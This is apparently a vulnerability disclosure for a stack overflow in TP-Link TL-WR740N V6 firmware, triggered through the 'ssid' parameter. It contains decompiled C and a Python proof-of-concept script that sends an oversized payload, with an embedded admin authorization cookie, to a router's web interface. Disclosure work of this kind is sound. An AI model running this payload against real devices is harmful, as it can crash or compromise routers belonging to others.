 ## Overview

- Firmware download website: https://www.tp-link.com/no/support/download/tl-wr740n/#Firmware

## Affected version

TL-WR740N V6

## Vulnerability details

In the TL-WR740N V6 Firmware has a stack overflow vulnerability in the `/userRpm/popupSiteSurveyRpm.htm` url. The `v21` variable receives the `ssid` parameter from a POST request and is later assigned to the `v53` variable, which is fixed at 17 bytes. 

![image-20240828174236232](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174236232.png)

![image-20240828174451292](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174451292.png)

![image-20240828174610096](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174610096.png)

![image-20240828174647853](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174647853.png)

![image-20240828174718594](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174718594.png)

However, since the user can control the input of `ssid`, the statement `stringModify(v8, 512, a3)` can cause a buffer overflow. The user-provided `ssid` can exceed the capacity of the `v8` array, triggering this security vulnerability.

```c
int __fastcall stringModify(_BYTE *a1, int a2, int a3)
{
  bool v3; // dc
  char *v4; // $a2
  int v5; // $a3
  int v6; // $v0
  int v7; // $v1

  if ( !a1 )
    return -1;
  v3 = a3 == 0;
  v4 = (char *)(a3 + 1);
  if ( v3 )
    return -1;
  v5 = 0;
  while ( 1 )
  {
    v7 = *(v4 - 1);
    if ( !*(v4 - 1) || v5 >= a2 )
      break;
    if ( v7 == 47 )
      goto LABEL_18;
    if ( v7 >= 48 )
    {
      if ( v7 == 62 || v7 == 92 )
      {
LABEL_18:
        *a1 = 92;
LABEL_19:
        ++v5;
        ++a1;
      }
      else if ( v7 == 60 )
      {
        *a1 = 92;
        goto LABEL_19;
      }
LABEL_20:
      ++v5;
      *a1++ = *(v4 - 1);
      goto LABEL_21;
    }
    if ( v7 != 13 )
    {
      if ( v7 == 34 )
        goto LABEL_18;
      if ( v7 != 10 )
        goto LABEL_20;
    }
    v6 = *v4;
    if ( v6 != 13 && v6 != 10 )
    {
      *a1 = 60;
      a1[1] = 98;
      a1[2] = 114;
      a1[3] = 62;
      a1 += 4;
    }
    ++v5;
LABEL_21:
    ++v4;
  }
  *a1 = 0;
  return v5;
}
```

## PoC

```python
import requests
import urllib
session = requests.Session()
session.verify = False
def exp(path,cookie):
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))
        }
    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
    params = {
    "mode":"1000",
    "curRegion":"1000",
    "chanWidth":"100",
    "channel":"1000",
    "ssid":urllib.request.unquote(payload)
    }
    url="http://192.168.0.1:80/{path}/userRpm/popupSiteSurveyRpm.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers)
    print (resp.text)
exp("AMSHQZKAISQSDUOA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

![image-20240828173712920](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828173712920.png)
